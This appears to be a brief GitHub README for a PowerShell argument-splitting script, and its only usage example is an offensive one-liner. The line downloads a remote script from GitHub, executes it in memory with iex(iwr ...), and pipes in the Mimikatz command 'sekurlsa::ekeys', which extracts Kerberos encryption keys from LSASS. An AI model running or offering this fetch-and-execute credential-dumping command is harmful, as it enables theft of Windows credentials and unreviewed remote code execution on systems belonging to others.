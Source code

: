 # Powershell-Misc
Split arguments.

Usage :
```
echo '"sekurlsa::ekeys" "exit"'| powershell -c "(iex(iwr https://raw.githubusercontent.com/zief/Powershell-Misc/main/argsplit.ps1 -usebasicparsing))"
```

